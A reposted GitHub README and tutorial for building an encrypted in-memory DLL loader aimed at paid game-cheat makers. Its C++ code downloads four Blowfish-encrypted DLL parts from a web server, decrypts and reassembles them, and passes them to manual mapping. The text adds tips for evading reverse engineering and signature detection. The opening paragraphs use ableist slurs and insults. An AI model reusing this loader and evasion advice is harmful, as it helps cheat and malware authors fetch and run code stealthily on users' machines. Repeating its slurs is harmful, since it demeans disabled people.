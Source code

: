# dll-encryptor


People who make pay hacks typically have down syndrome and are incapable of using their brains in any fashion, and yet these bath salt smoking morons are making pay hacks...Sooner or later when they get close to actually releasing their cheat, they realize "omg I pasted this entire thing, what if someone leaks my DLL, they'll know I'm a retard!"

That is when they then come to GH and ask "how to stream a DLL without hitting disk!?!?"

Well look what we have here, our old friend Senor Paster McGee is back and needs help doing actual development, something he can't paste. Well don't worry folks, Lord Rake has granted you a glimpe into his omniscience with this fresh AF proof of concept that will show you how to stream a DLL, without touching disk, and we'll even slap some juicy encryption on it as well.

This source code shows you how to split the DLL into 4 different files and encrypt each of them using blowfish encryption with seperate keys. Your loader would download these 4 files using InternetReadFile, decrypt them and then combine them into the original DLL bytes as a string, and then manually map it. I have left manual mapping out of this project, you have to figure that part out.

People making payhacks ask how to stream a DLL in C++ all the time, maybe they shouldn't be making pay hacks if they can't solve simple problems like this, smh. So how do you stream a DLL from your web server without downloading it to disk?

Disclaimer: I whipped this up as fast as I could, nothing too special, this is just something I came up with to reduce the chance your DLL gets dumped.

<div align="center">
    <img src="https://cdn.discordapp.com/attachments/901211756075044874/903060398318690334/unknown.png"/>
</div>

This is how you stream a DLL into a string, without ever touching disk, simply using InternetReadFile
(obviously it would be best to use something different that isn't a simple WinAPI call, but this is just a PoC)

```cpp
std::string StreamFileToMemString(std::wstring URL)
{
    const wchar_t* header = L"Accept: *" "/" "*\r\n\r\n";
    HANDLE hInterWebz = InternetOpen(L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, NULL);
    HANDLE hURL = InternetOpenUrl(hInterWebz, URL.c_str(), header, lstrlen(header), INTERNET_FLAG_DONT_CACHE, 0);

    char* Buffer = new char[100000000]; //100mb
    memset(Buffer, 0, 100000000);
    DWORD BytesRead = 1;

    std::string data;

    if (InternetReadFile(hURL, Buffer, 100000000, &BytesRead))
    {
        data = std::string(Buffer);
    }

    delete[] Buffer;
    InternetCloseHandle(hInterWebz);
    InternetCloseHandle(hURL);

    return data;
}
```

**This is how we download the 4 encrypted file & decrypt it into a string which represents our streamed DLL**
```cpp
std::string GetDecryptedDLL()
{
    std::string data1 = StreamFileToMemString(LR"(https://guidedhacking.com/gh/dl/dlltest/1)");
    std::string data2 = StreamFileToMemString(LR"(https://guidedhacking.com/gh/dl/dlltest/2)");
    std::string data3 = StreamFileToMemString(LR"(https://guidedhacking.com/gh/dl/dlltest/3)");
    std::string data4 = StreamFileToMemString(LR"(https://guidedhacking.com/gh/dl/dlltest/4)");

    std::string decryptedDLL = Decrypt({ data1, data2, data3, data4 });

    return decryptedDLL;
}
```

**This function shows the blowfish decryption of the streamed DLL:**
```cpp
std::string Decrypt(EncryptedData_t encryptedData)
{
    //decrypt each part
    std::string BufferDecrypted = blowfish1.Decrypt_CBC(encryptedData.a);
    BufferDecrypted += blowfish2.Decrypt_CBC(encryptedData.b);
    BufferDecrypted += blowfish3.Decrypt_CBC(encryptedData.c);
    BufferDecrypted += blowfish4.Decrypt_CBC(encryptedData.d);

    //rebuild the DLL from decrypted data
    std::ofstream ofs;
    ofs.open(L"original-rebuilt.dll", std::ios::binary);
    std::copy(BufferDecrypted.begin(), BufferDecrypted.end(), std::ostream_iterator<char>(ofs));
    ofs.close();

    return BufferDecrypted;
}
```

**This is showing a test case of downloading, decrypting and saving the file to disk, for testing that it works correctly:**
```cpp
int TestDownloadAndDecryption(fs::path currDir)
{
    std::string decryptedDLL = GetDecryptedDLL();

    //Test output to disk
    std::ofstream ofs;
    ofs.open(currDir / L"original-rebuilt.dll", std::ios::binary);
    std::copy(decryptedDLL.begin(), decryptedDLL.end(), std::ostream_iterator<char>(ofs));
    ofs.close();

    std::getwchar();
    return 0;
}
```
**Now what? How to inject the DLL stream**


```cpp
std::string decryptedDLL = GetDecryptedDLL();
ManualMap(decryptedDll.c_str());
//Ensure the DLL bytes are destroyed at this point
```

This encrypted DLL streaming project is a great starting point for any amateur pay cheat.

Obviously if you were reversing this, you would just dump the argument to the manual mapping function, but if you slapped VMProtect on this and used a few other tricks, it would be annoying enough where most people would give up. Also the flow of execution is very obvious, if you were to do this in stages, sprinkled through the entire execution of your loader, it would be a lot less obvious.

Pro Tip: if you're gonna use this or any other type of encryption, randomize the S boxes and the P array, if you don't SignSearch will detect them and the person analyzing it will instantly know the encryption routine. Most encryption like blowfish will give you this default seed data, and every single implementation you find online will all use the same default seed data, making it trivial to identify with something like SignSearch. (some even use the same key, smh). When you use signsearch and it identifies the encryption, it takes about 15 seconds to find the decryption function. I have already randomized them in my download above.

Also be wary of using cryptopp or other common libraries, they are super easy to identify, some expose RTTI and others have pdbs, then you have TypeLibraries and Lumina servers, making it too easy to identify and reverse them with limited effort.

You can download the entire project below, and that ends my C++ how to stream a DLL tutorial.



< THIS IS A TOTAL REPOST OF https://guidedhacking.com/threads/how-to-stream-a-dll-without-touching-disk-encrypted.16940/ >

